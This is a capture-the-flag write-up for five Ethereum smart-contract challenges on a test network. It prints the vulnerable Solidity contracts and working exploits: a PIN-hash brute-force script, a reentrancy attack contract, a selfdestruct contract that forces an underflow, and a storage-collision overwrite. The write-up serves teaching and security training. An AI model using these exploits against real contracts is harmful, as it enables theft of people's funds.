# Santhacklaus 2019 - Golden Rush

## TL;DR

GoldenRush is a set of five challenges based on the Ethereum Blockchain technology where you have to exploit vulnerable Smart Contracts in order to steal all the ether from the Santhacklaus CTF 2019.
You can visit the CTF platform : https://ctf.santhacklaus.xyz

Creator of the challenges : [@ch3n4p4n](https://twitter.com/Ch3n4p4N)

| Name                 | Points   | Solves | Link  |
| -------------------- |:---:|:--:| :-----------------------------------------: |
| LEVEL 1 - DONATION   | 100 | 32 | https://goldenrush.santhacklaus.xyz/level1 |
| LEVEL 2 - PIGGYBANK  | 200 | 29 | https://goldenrush.santhacklaus.xyz/level2 |
| LEVEL 3 - GRINGOTTS  | 300 | 18 | https://goldenrush.santhacklaus.xyz/level3 |
| LEVEL 4 - WALLSTREET | 400 | 11 | https://goldenrush.santhacklaus.xyz/level4 |
| LEVEL 5 - THEVAULT   | 500 | 14 | https://goldenrush.santhacklaus.xyz/level5 |


## LEVEL 0 - Introduction & Setup

## Introduction

For those who are totally new to blockchain challenges, I recommend you to watch a few youtube videos and read some tutorials on how smart contracts work and on how to interact with them with Web3.js or Remix.

Here are some useful resources :
- [Solidity documentation](https://solidity.readthedocs.io/en/develop/)
- [Remix compiler](https://remix.ethereum.org/)
- [Smart Contract Weakness Classification](https://swcregistry.io)
- [Smart Contract Vulneraility Scanner](https://tool.smartdec.net/)
- [Youtube : Blockchain Exploitation Series](https://www.youtube.com/playlist?list=PLCwnLq3tOElp0PFnuUFUIhpEeju5qrKJI)
- [Interacting with a Smart Contract through Web3.js (Tutorial)](https://medium.com/@yangnana11/interacting-with-a-smart-contract-through-web3-js-tutorial-56a7ff2ff153)

Firstly always read and followed carefully the [advice section](https://goldenrush.santhacklaus.xyz/help) given by the CTF staff team :



The configuration setup is quite classic, we need to install the [MetaMask browser exension](https://metamask.io/) and get some fake ether on the Ropsten network with [MetaMask faucet](https://faucet.metamask.io/).

## Setup

I used mostly the Remix compiler to solve these challenges but @meroupatate used web3.js don't hesitate to check her [writeups](https://github.com/meroupatate/writeups/tree/master/Santhacklaus2019) !

In order to setup Remix correctly you need compile the contract first. I copy/paste the code in a new file and select version of a compiler working for the chall.



Here the compiler version must be between 0.4.21 and 0.6.0 (excluded) :



Once you compile the concract on Remix, you can deployed a new level instance of the challenge by clickng on the button **New instance**, here for the level 1 at the address : **0x6CA24CABf32d73BA4b0122dE678955a9f1Db5115**



You can "import" the chall contract on Remix by selecting **Injected Web3** (your metamask plugin will be linked) and clicking on deployed **At Adress** button :




I repeated this operations each time for the five levels.
Now, let's flag these challenges !

## LEVEL 1 - DONATION

### Description

As describe on the LEVEL 0, I deployed an instance of this level at the adress **0x6CA24CABf32d73BA4b0122dE678955a9f1Db5115**

```solidity
pragma solidity >=0.4.22 <0.6.0;

contract Donation {
    uint256 public funds;

    constructor() public payable{
        funds = funds + msg.value;
    }

    function() external payable {
        funds = funds + msg.value;
    }

    function getDonationsFromOwner(address _contractOwner) external {
        require(keccak256(abi.encodePacked(address(this)))==keccak256(abi.encodePacked(_contractOwner)));
        msg.sender.transfer(funds);
        funds = 0;
    }
}
```

As you can see, the contract *Donation* is composed by one public variable *funds* and three functions : *the constructor*, *the fallback function* and the function *getDonationsFromOwner*.

The *funds* variable represent the number of ether on the contract and is set at 0.001 Eth on the deployement. This can be checked on [Etherscan.io](https://ropsten.etherscan.io/) with the address of your instance :



Or by checking the value of the public variable *funds* :



This is the ethereum we need to "steal" in order to flag the challeng.
The last function *getDonationsFromOwner* designed to transfer an amount of ether equal of the value of the *funds* variable, to the person who call the function, if the argument *_contractOwner* is equal to *address(this)*. A few research on Google tells us that *address(this)* value is actually the address of the contract in the blockchain (here 0x6CA24CABf32d73BA4b0122dE678955a9f1Db5115).

### Get the money

We can now try execute the *getDonationFromOwner* function with our contract address as argument:



And few seconds later when the transaction succeed, we can go on the challenge page and click the *Check button* to get our flag !
### Flag
Well done ! **SANTA{!!S0Lidi7y_BaSiCs!!}**

## LEVEL 2 - PIGGYBANK

This challenge is the 2nd level of the Golden Rush series, let's deployed an instance on the address : **0x09d1C7c4b533060a0AAa94221C4d924da89F0671**

### Description

For the second level, we are given the following source code:

```solidity
pragma solidity ^0.4.21;

contract PiggyBank {
    bool public isOwner = false;
    uint256 public funds;
    bytes32 private pinHash = 0x7d8db9357f1302f94064334778507bb7885244035ce76b16dc05318ba7bf624c;

    constructor() public payable {
        funds = funds + msg.value;
    }

    function() external payable {
        funds = funds + msg.value;
    }

    function unlockPiggyBank(uint256 pin) external {
        if((keccak256(abi.encodePacked(uint8(pin))) == pinHash)){
        isOwner = true;
        }
    }

    function withdrawPiggyBank() external {
        require(isOwner == true);
        msg.sender.transfer(funds);
        isOwner = false;
        funds = 0;
    }
}
```

As you can see, the contract *PiggyBank* is composed by three publics variables *isOwner*, *funds*, *pinHash* and three functions : *the constructor*, *the fallback function* the function *unlockPiggyBank* and *withdrawPiggyBank*.

This time, the Piggy Bank contract needs its *isOwner* variable set to *True* to allow us to call the function *withdrawPiggyBank* and steal all the money. Therefore, we should probably look into the *unlockPiggyBank* function.

The *unlockPiggyBank* function will set the variable *isOwner* to true only if the keccak of uint8(*pin*) argument we give him is the same value as *pinHash*.

Even if the argument *pin* is an uint256, **the variable is cast in uint8**, so it will be in range between 0 and 255. This can be brute force !

### Get the money

I used the library [eth-abi](https://github.com/ethereum/eth-abi) to simulate the abi encode in uint8 and made a little ptyhon script to brute force the *pinHash* :

```Python
from Crypto.Hash import keccak
from eth_abi.packed import encode_single_packed

for i in range(256):
  keccak_hash = keccak.new(digest_bits=256)
  keccak_hash.update(encode_single_packed('uint8', i))
  if "7d8db93" in keccak_hash.hexdigest():
    print("Pin : %s" % i)
    break

# Pin : 213
```
We can call the function with the argument 213 :



And check so that the *isOwner* is now set to **True** :



Just call the *withdrawPiggyBank* function and once the transaction succeed, we can go on the challenge page and click the *Check button* to get our flag !

### Flag

Well done ! **SANTA{N0_M0R3_B4D_R4ND0MN3SS_PL3AZ}**

## LEVEL 3 - GRINGOTTS

This challenge is the 3rd level of the Golden Rush series, let's deployed an instance on the address : **0x24bD48875E2B00ae6841a18071950718B21651dc**

### Description

Let's have a look of the challenge source code :

```solidity
pragma solidity >=0.4.22 <0.6.0;

contract Gringotts {
	mapping (address => uint) public sorceryAllowance;
	uint public allowancePerYear;
	uint public startStudyDate;
	uint public numberOfWithdrawls;
	uint public availableAllowance;
	bool public alreadyWithdrawn;

    constructor() public payable {
        allowancePerYear = msg.value/10;     
        startStudyDate = now;
        availableAllowance = msg.value;
    }

    modifier isEligible() {
        require(now>=startStudyDate + numberOfWithdrawls * 365 days);
        alreadyWithdrawn = false;
        _;
    }

    function withdrawAllowance() external isEligible{
        require(alreadyWithdrawn == false);
        if(availableAllowance >= allowancePerYear){
			if (msg.sender.call.value(allowancePerYear)()){
				alreadyWithdrawn = true;
			}
        numberOfWithdrawls = numberOfWithdrawls + 1;
        sorceryAllowance[msg.sender]-= allowancePerYear;
        availableAllowance-=allowancePerYear;
        }
    }

	function donateToSorcery(address sorceryDestination) payable public{
		sorceryAllowance[sorceryDestination] += msg.value;
	}

	function queryCreditOfSorcery(address sorcerySource) view public returns(uint){
		return sorceryAllowance[sorcerySource];
	}
}
```
The contract begin with some variable initialized by the *constructor funciton* followed by a *modifier* and three functions *withdrawAllowance*, *donateToSorcery* and *queryCreditOfSorcery*.

As in the famous harry potter's bank you can deposit money in an account with the function *donateToSorcery* in the map sorceryAllowance and check the value of an account with the function *queryCreditOfSorcery*.

The only interesting and vulnerable function is *withdrawAllowance* who authorize the owner of a Gringotts account to withdraw 1/10 of the money deposited each year.

The line `msg.sender.call.value(allowancePerYear)()` makes us immediately think at the most famous blochain vulnerability, the reantrancy attack.

The main idea is to call the *withdrawAllowance* function through an external malicious contract in order to withdraw some ether and activate the fallback method of our malicious contract wich will call again the withdraw function like a loop again and again until there's no more ether.

There is some useful links about reentrancy attack :
- [Solidity documentation](https://solidity.readthedocs.io/en/v0.6.0/security-considerations.html#re-entrancy)
- [Hackernoon article](https://hackernoon.com/smart-contract-security-part-1-reentrancy-attacks-ddb3b2429302)
- [Nice medium arcticle](https://medium.com/@gus_tavo_guim/reentrancy-attack-on-smart-contracts-how-to-identify-the-exploitable-and-an-example-of-an-attack-4470a2d8dfe4)

After a few more readings we are ready to attack this contract.

### Get the money

This is the source code of my malicious contract :

```solidity
pragma solidity >=0.4.22 <0.6.0;

import "./golden3.sol";

contract GringottsCollect {
  Gringotts public gringotts;

  constructor(address _gringotts) public payable {
    gringotts = Gringotts(_gringotts);
  }

  function kill () public {
    selfdestruct(msg.sender);
  }

  function collect(address sorceryDestination) public payable {
    gringotts.donateToSorcery.value(msg.value)(sorceryDestination);
    gringotts.withdrawAllowance();
  }

  function () public payable {
    if (address(gringotts).balance >= msg.value) {
      gringotts.withdrawAllowance();
    }
  }
}
```

You must import the initial contract in order to call external function. I deployed my malicious contract with the address of the original one as parameter in order to link them both through the variable *gringotts*.



And then call the function *collect* of the GringottsCollect contract, wich first give some money to be register in the *sorceryAllowance* map of the Gringotts contract followed by the infinite withdraw of ether tanks to the reentrancy attack.



All the money is stolen as you can see in the ropsten network :



In a real robbery, the function *kill* should be used in order to desctruct the contract and get all the stolen ether in our wallet. We will see this more in details in the next level. ;)

We just need to click on the check button in order to get our flag !

### Flag

Well done ! **SANTA{R3eN7r4ncY_f0r_Th3_WiN}**

## LEVEL 4 - WALLSTREET

This challenge is the 4th level of the Golden Rush series, let's deployed an instance on the address : **0xF4159a7238FB2A208D347C267F5ED323b46c1474**

### Description

```solidity
pragma solidity >=0.4.21 <0.6.0;

contract WallStreet {
    uint256 stockExchangeAmount;
    address contractOwner = msg.sender;
    uint256 collectFundsDate = now + 14600 days;
    uint256 lostMoneyAmount;

    constructor() public payable {
    	stockExchangeAmount = msg.value;
    }

    function receiveMoneyAmount() public {
        require(stockExchangeAmount - address(this).balance > 0);
        msg.sender.transfer(address(this).balance);
    }

    function withdrawMoney() public {
        require(msg.sender == contractOwner);
        if (now < collectFundsDate) {
            uint256 lostClientMoney = address(this).balance / 2;
            lostMoneyAmount = lostMoneyAmount + lostClientMoney;
            msg.sender.transfer(address(this).balance - lostClientMoney);
        } else {
            msg.sender.transfer(address(this).balance + 100 ether);
        }
    }

    function getStockExchangeAmount() public view returns (uint256 amount) {
        return stockExchangeAmount;
    }

    function dateOfCollection() public view returns (uint256 date) {
        return collectFundsDate;
    }
}
```

As you can see, the contract *WallStreet* is composed by four publics variables and some functions : *the constructor*, *receiveMoneyAmount*, *withdrawMoney*, *getStockExchangeAmount* and *dateOfCollection*. The two last ones just returning the value of the public variable *stockExchangeAmount* and *collectFundsDate*. They don't seems interresting.

The *withdrawMoney* function start with the `require(msg.sender == contractOwner);` and I don't see anyway to bypass the require.

The function *receiveMoneyAmount* is the vulnerable one, because it's end with the transfer of all the amount of ether wich is the requierement to validate the chall and also because the line `require(stockExchangeAmount - address(this).balance > 0);` may be subject at underflow if the balance of the contract is superior as the value *stockExchangeAmount*.

We can see in the constructor that the both variable have the same value (0,01 eth) :

```Solidity
constructor() public payable {
	stockExchangeAmount = msg.value;
}
```



A way to trigger this underflow could be to give some amount of ether at a payable function of the *WallStreet* contract but there is none.

The only way to give some ether at a contract without his consent is to destroy another contract and give the address of our contract as the recipient of our ether.

Let's make this second malicious contract.

### Get the money

There is my *Kamikaze* contract source code :

```solidity
pragma solidity >=0.4.21 <0.6.0;

contract Kamikaze {

    constructor() public payable {
    }

    function close() public  {
        selfdestruct(0xF4159a7238FB2A208D347C267F5ED323b46c1474);
    }
}
```
I deployed my Kamikaze contract with an initial amount of ether :



And just click on the function *close* in order to kill the contract :



The new amout of ether on the *WallStreet* contract is 0.011 eth :



I click on the *receiveMoneyAmount* and steal all of the ether, just need to click on check and get the flag !



### Flag

Well done ! **SANTA{¡¡0v3rFl0ws_4r3_Ins4N3!!}**

## LEVEL 5 - THEVAULT

This challenge is the 5th and the last level of the Golden Rush series, let's deployed an instance on the address : **0xcc850fED4Cf2c67805C6427c71598209BD7382bd**

### Description

```solidity
pragma solidity >=0.4.17 <0.6.0;

contract TheVault {
    uint256 public moneyAmount;
    uint256[] savingAccounts;

    constructor() public payable{
        moneyAmount = 0;
    }

    function putMoneyOnAccount(uint256 accountNumber, uint256 moneyQuantity) public {
        if (savingAccounts.length <= accountNumber) {
            savingAccounts.length = accountNumber + 1;
        }

        savingAccounts[accountNumber] = moneyQuantity;
    }

    function withdrawMoneyFromAccount(uint256 accountNumber) public {
        require(moneyAmount >= 2000000 && savingAccounts[accountNumber] >= 1);
        msg.sender.transfer(address(this).balance);
    }

    function getMoneyFromAccount(uint256 accountNumber) public view returns (uint256) {
        return savingAccounts[accountNumber];
    }
}
```

The last contract nammed TheVault is composed by a variable and an array with a *constructor* and three functions *putMoneyOnAccount*, *withdrawMoneyFromAccount* and *getMoneyFromAccount*.

Let's analyze the functions, the constructor initialized the value of the variable *moneyAmount* at 0. The last one, *getMoneyFromAccount* just return the value of an index of the array savingAccounts.

The *withdrawMoneyFromAccount* function is the one we need to trigger to validate the chall because of the line `msg.sender.transfer(address(this).balance);`. To call this function we need to bypass the line `require(moneyAmount >= 2000000 && savingAccounts[accountNumber] >= 1);`.

The *putMoneyOnAccount* function is the vulnerable one because of the line `savingAccounts[accountNumber] = moneyQuantity;` we will be able to overwrite the value of *moneyAmount*.

This is a well-known SWC vulnerability often saw on CTF as [Capture the Ether](https://capturetheether.com/) or [root-me.org](https://www.root-me.org/fr/Challenges/Programmation/).

Let'have a look of the documentation in order to understand the vulnerability :

- [Write to Arbitrary Storage Location](https://swcregistry.io/docs/SWC-124)
- [Solidity storage documentation](https://solidity.readthedocs.io/en/develop/miscellaneous.html)

In the solidity language, the initials variables are store in the storage location. Here the *moneyAmount* variable is in storage 0 and the *savingAccounts* array in the storage 1. As the array length is not fix, the value of the array will be store at the storage *keccak256(p)* where p is equal to 1 in our case.

Let's exploit the vulneraility !

### Get the money

We first calcul the value of *keccak256(p)*, because of the position of the array in the local storage we will take keccak256(uint256(0x1))

```javascript
web3.sha3("0x0000000000000000000000000000000000000000000000000000000000000001", { encoding: 'hex' })
0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
```

The local storage is set on 2**256 address so in order to create a storage collision I use the following calcul ("+ 0" is for the index of the storage I want to overwrite)

```Perl
perl -Mbigint -E 'say ((2**256 - 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6 + 0)->as_hex)'
# 0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a
```

Now we just need to call the *putMoneyOnAccount* function with the address *0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a* and a value superior or equal at 2000000.



I correctly overwrite the variable *moneyAmount* with a big value.



We can withdraw all the ether, click on the *Check* button and get our flag !



### Flag

Well done ! **SANTA{Y0u_Fin4lLy_DiD_i7!!!}**


Thx for reading :D
Don't hesitate, if you have any question : [@pierrosen](https://twitter.com/pierrosen)
